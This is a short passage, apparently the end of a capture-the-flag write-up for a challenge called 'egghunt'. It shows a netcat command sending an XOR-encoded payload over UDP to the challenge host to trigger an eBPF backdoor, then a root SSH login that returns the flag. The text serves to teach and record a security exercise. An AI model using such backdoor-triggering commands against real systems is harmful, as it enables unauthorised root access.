Looks like it worked. Shall we try the remote end as well?

```
root@egghunt:~# nc -u egghunt.challenges.adversary.zone 1337 < xored 
root@egghunt:~# ssh root@egghunt.challenges.adversary.zone 
root@egghunt.challenges.adversary.zone's password: 
CS{ebpf_b4ckd00r_ftw}
```

